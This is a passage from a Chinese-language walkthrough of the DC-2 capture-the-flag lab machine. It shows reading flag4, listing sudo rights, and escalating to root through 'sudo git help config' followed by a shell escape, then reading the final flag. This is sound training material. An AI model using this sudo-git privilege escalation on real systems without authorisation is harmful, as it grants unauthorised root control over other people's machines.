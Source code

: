         根据提示 `su jerry` 使用之前得到的密码，登陆成功
        
    - 当前目录下存在`flag4`
        
        ```sql
        jerry@DC-2:~$ cat flag4.txt
        Good to see that you've made it this far - but you're not home yet. 
        
        You still need to get the final flag (the only flag that really counts!!!).  
        
        No hints here - you're on your own now.  :-)
        
        Go on - git outta here!!!!
        ```
        
        `git outta` 提示 `git` 提权（属于sudo提权里面的）
        
    - 查看当前权限，刚好是`git`
        
        ```sql
        jerry@DC-2:~$ sudo -l
        Matching Defaults entries for jerry on DC-2:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
        
        User jerry may run the following commands on DC-2:
            (root) NOPASSWD: /usr/bin/git
        ```
        
    - `git`提权
        
        ```sql
        sudo git help config
        :!/bin/bash
        ```
        
        ```sql
        root@DC-2:/home/jerry#
        ```
        
    - 获得`root`权限后，读取加目录下的`finalflag`即可
        
        ```sql
        root@DC-2:~# cat final-flag.txt 
        //
         __    __     _ _       _                    _ 
        / / /\ \ \___| | |   __| | ___  _ __   ___  / \
        \ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
         \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
          \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   
        
        Congratulatons!!!
        
        A special thanks to all those who sent me tweets
        and provided me with feedback - it's all greatly
        appreciated.
        
        If you enjoyed this CTF, send me a tweet via @DCAU7.
        ```